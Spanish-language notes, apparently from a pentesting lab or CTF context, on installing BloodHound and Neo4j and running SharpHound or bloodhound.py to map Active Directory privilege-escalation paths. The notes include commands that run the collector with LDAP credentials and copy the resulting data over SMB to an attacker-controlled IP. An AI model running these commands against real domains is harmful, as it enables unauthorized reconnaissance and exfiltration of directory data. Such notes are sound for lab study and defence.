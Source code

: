 Herramienta para explorar la seguridad de un Active Directory.

Herramienta que analiza la seguridad de un controlador de dominio realizando ingestión de datos sobre el dominio y resaltando los potenciales puntos para la escalada de privilegios. Además proporciona rutas para ataques complejos que puedan comprometer la seguridad de la red.

La información que recoge es:
- Información de usuarios con derechos de administración.
- Usuarios que pueden acceder a otras máquinas de la red.
- Información de grupos.
- ETC

Instalación en Kali --> `apt-get install bloodhound`
Instalará Bloodhound y Neo4j.

Neo4j es una base de datos. Administrador de bases de dtos NoSQL. Esta herramienta sirve de apoyo a Bloodhound por su sistema de visualización en grafo representando las relaciones entre los datos obtenidos por Bloodhound.

** Uso **
`neo4j console`
username: neo4j || password: neo4j
neo4j corre en el puerto --> localhost:7474
Abrir Bloodhound en segundo plano --> `bloodhound &`
Desasociar el último proceso de su padre, en este caso, bloodhound de la consola --> `disown`

** Si neo4j no funciona correctamente, actualizar a java 11 **
`update-alternatives --config java`

** Dumpear o extraer la información del equipo objetivo **
> Descargar "injestor", binario compilado de sharphound (Sharphound.exe): https://github.com/BloodHoundAD/BloodHound/tree/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors
> Pasar Sharphound.exe a máquina objetivo con: SMB, servidor web, IWR, etc.
> Ejecutar archivo Sharphound:
> `C:\Windows\Temp\Sharphound.exe -c all --Ldapuser mrlky --LdapPass Football#7`
> Nos crea un archivo xxx_BloodHound.zip que debemos transferir a máquina atacante, donde debe estár corriendo Bloodhound con Neo4j.
> `net use \\10.10.14.6\smbFolder /u:s4vitar s4vitar`
> `copy xxx_BloodHound.zip \\10.10.14.6\smbFolder\xxx_BloodHound.zip`


** Vizualizar archivo xxx_BloodHound.zip en Bloodhound **
Pasar el archivo .zip a la consola web de Bloodhound --> localhost:7474

** Uso de Bloodhound sin tener que ejecutar Sharphound.exe en la máquina objetivo **
https://github.com/fox-it/BloodHound.py

Script que ejecuta operaciones contra los servicios ldap de la máquina objetivo para obtener información que después pueda ser representada en neo4j.

> `git clone https://github.com/fox-it/BloodHound.py.git`
> `python3 setup.py install`
> `python3 bloodhound.py -c all -u 'support' -p '<contraseña>' -d blacfield.local -ns 10.10.10.192`

